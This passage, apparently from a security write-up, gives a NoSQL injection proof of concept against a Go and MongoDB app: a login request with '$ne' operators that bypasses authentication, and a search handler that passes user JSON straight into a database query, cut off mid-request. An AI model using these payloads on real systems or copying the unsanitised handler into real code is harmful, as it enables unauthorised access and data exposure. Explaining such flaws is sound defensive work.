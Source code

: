 **Authentication Bypass PoC:**

1.  **Request:**
    ```
    POST /login HTTP/1.1
    Host: localhost:8080
    Content-Type: application/json
    Content-Length: 42

    {
        "username": {"$ne": null},
        "password": {"$ne": null}
    }
    ```
2.  **Expected Outcome (Vulnerable):** The application would likely return "Login successful" and potentially the first user found in the database, effectively bypassing authentication, assuming there's at least one user. The `$ne` (not equal) operator makes both conditions (`username != null` AND `password != null`) true for any existing user.

**Data Enumeration (if applicable and if a search endpoint exists):**

Suppose there's a search endpoint that takes a `query` parameter directly into a `Find` operation:

```go
func searchHandler(c *gin.Context) {
    var searchQuery bson.M
    if err := c.ShouldBindJSON(&searchQuery); err != nil {
        c.JSON(http.StatusBadRequest, gin.H{"error": err.Error()})
        return
    }

    collection := client.Database("testdb").Collection("products")
    cursor, err := collection.Find(context.TODO(), searchQuery)
    if err != nil {
        c.JSON(http.StatusInternalServerError, gin.H{"error": err.Error()})
        return
    }
    defer cursor.Close(context.TODO())

    var products []bson.M
    if err = cursor.All(context.TODO(), &products); err != nil {
        c.JSON(http.StatusInternalServerError, gin.H{"error": err.Error()})
        return
    }
    c.JSON(http.StatusOK, gin.H{"results": products})
}
```

1.  **Request to `/search`:**
    ```
    POST /search HTTP/1.1
    Host: localhost:8080
    Content-Type: application/json
    Content-Length: 20
